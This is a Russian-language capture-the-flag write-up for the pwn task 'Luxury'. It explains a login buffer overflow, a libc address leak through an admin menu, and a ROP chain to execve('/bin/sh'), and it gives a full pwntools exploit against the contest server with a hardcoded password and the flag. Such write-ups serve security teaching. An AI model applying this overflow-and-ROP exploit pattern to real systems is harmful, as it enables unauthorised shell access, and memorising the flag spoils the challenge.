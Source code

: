 # Люкс | medium | pwn

## Информация
> Герой уже неделю живёт в этом роскошном отеле, но назвать его отдых идеальным сложно. Стандартный номер, скрипучая кровать, тусклый свет — явно не то, на что он рассчитывал. В соседних номерах постояльцы наслаждаются панорамными видами, джакузи и персональным обслуживанием, пока он вынужден мириться с этой посредственностью. Такое положение дел его не устраивает. Пора переселяться. Всё, что нужно, — изменить один параметр в базе данных. Ходят слухи, что сеть отеля не так уж и защищена, а доступ к серверу можно получить через уязвимость в роутере...

## Выдать участинкам
файл [luxury](public/luxury)

## Описание
Для решения надо заметить переполнение буфера и возможность составить ROP-цепочку.

## Решение
Открываем бинарь, анализируем его. Флаг нигде не выводится, значит надо как-то получить шелл.

На этапе логинизации видим, что можно переполнить одну из переменных

![alt text](solve/image-1.png)

(**s1 переполняется**)

Канарейка отсутвует, значит можем перетереть адрес возврата и составить ROP цепочку на execve("/bin/sh")

Чтобы это сделать нам нужны гаджеты и база libc

Базу можно найти с помощью функции админа, там выводятся адреса функций (берем последние три цифры и ищем libc на libc.rip)

![alt text](solve/image-2.png)

(**Вывод адресов**)

После нахождения версии libc можно ее скачать и начать писать сплоит

Алгоритм будет следующим: сначала закидываем номер системного вызова, затем очищаем rsi, rdx, после закидываем в rdi адрес /bin/sh и делаем syscall

Гаджеты можно найти в libc с помощью утилиты ROPgadget

Код сплоита:

```python
from pwn import *

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
exe = ELF("./luxury")
# s = process("./luxury")
s = remote("tasks.polyctf.ru", 30006)

s.recvuntil(b": ")
s.sendline(b"admin")
s.recvuntil(b": ")
s.sendline(b"V3rY_sTroNg_p1ss")

s.recvuntil(b"> ")
s.sendline(b"1")

s.recvuntil(b"-> ")

leak = s.recvline().strip()

# OFFSET_PRINTF = libc.symbols["printf"]
OFFSET_PRINTF = 0x525b0
LIBC_BASE = int(leak, 16) - OFFSET_PRINTF

print(hex(LIBC_BASE))

s.recvuntil(b"> ")
s.sendline(b"5")

s.recvuntil(b": ")
s.sendline(b"AAAA")

# bin_sh = 0x197e34
bin_sh = 0x196031
pop_rdi = 0x00000000000277e5
pop_rsi = 0x0000000000028f99
pop_rax = 0x000000000003f197
pop_rdx = 0x00000000000fde7d
syscall = 0x0000000000026428

ROP = p64(LIBC_BASE + pop_rax)
ROP += p64(0x3b)
ROP += p64(LIBC_BASE + pop_rdi)
ROP += p64(LIBC_BASE + bin_sh)
ROP += p64(LIBC_BASE + pop_rsi)
ROP += p64(0x0)
ROP += p64(LIBC_BASE + pop_rdx)
ROP += p64(0x0)
ROP += p64(LIBC_BASE + syscall)

s.sendline(b"A" * 32 + p64(0xCAFEBABE) + ROP)

s.interactive()


```
 
## Флаг
`PolyCTF{N0_R3tUrn_t0_hOm3}`
